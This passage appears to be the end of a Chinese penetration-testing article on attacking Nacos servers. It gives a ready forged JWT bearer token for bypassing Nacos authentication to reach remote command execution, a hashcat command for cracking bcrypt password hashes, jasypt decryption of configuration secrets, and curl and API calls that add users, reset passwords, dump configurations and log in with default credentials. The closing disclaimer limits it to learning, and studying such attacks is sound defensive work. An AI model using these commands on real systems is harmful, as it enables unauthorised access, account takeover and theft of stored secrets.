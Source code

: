 #-u nacos web地址  
> # -c 指定命令  
  
  
![1745678912_680cf2402068fd3432702.png!small?1745678913356](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiahAuHXrTBrgHicuCUfIfHu7zrMpeRL9YpXiaxAHAib8sFAWR6UqtF3iaRDw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
如果显示未知用户或者未找到用户，则表示nacos启用了鉴权需要伪造JWT绕过登陆授权，在文件Nacos_Rce.py文件中设置请求头即可。只要能够绕过登陆授权，就可能能RCE。  
  
![1745678996_680cf29493053a3421735.png!small?1745678997694](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaBZc7dz3kUGm9wKTUxZZHX8sgvAKpcShO7junCiaH4W6HG9ppmjvQiakg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
> header = {  
  
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like             Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.67',  
  
'Authorization':'Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MzQ4MTM1NzA1NX0.92Mo2gkDFuPnUaD2v63SQl1IWtObfBxDTWgIhqvteM8'  
  
}  
  
### 10. 密码破解  
### nacos密码bcrypt  
> hashcat -a 0 -m 3200 hashes.txt rockyou.txt -w 3 -O -D 1,2 --show  
  
### 配置文件密文 jasypt  
> java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringEncryptionCLI input="123456" password="salt123" algorithm="PBEWithMD5AndDES"  
  
java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringDecryptionCLI input="MecKdyPwwkD+AqUKPy1GlQ==" password="salt123" algorithm="PBEWithMD5AndDES"  
  
### 11、常用命令  
> http://127.0.0.1:8848/nacos/v1/console/server/state  
  
http://xx.xx.xx.xx/v1/console/server/state  
  
http://127.0.0.1:8848/nacos/v1/auth/users?search=accurate&pageNo=1&pageSize=9   get查询用户  
  
curl -v --data-binary "username=test&password=123456" "http://127.0.0.1:8848/nacos/v1/auth/users"  post添加用户  
  
curl -X PUT 'http://127.0.0.1:8848/nacos/v1/auth/users?accessToken=' -d 'username=test&newPassword=test123'  修改密码  
  
http://127.0.0.1:8848/nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99  获取配置信息  
  
http://127.0.0.1:8848/nacos/v1/core/cluster/nodes  获取集群信息  
  
curl --data-binary "username=nacos&password=nacos" "http://127.0.0.1:8848/nacos/v1/auth/users/login"  登陆  
  
###   
## 总结  
  
**在网络安全的世界里，停止学习就意味着落后，共勉！**  
  
****  
****  
原文链接：  
https://www.freebuf.com/articles/web/428863.html  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
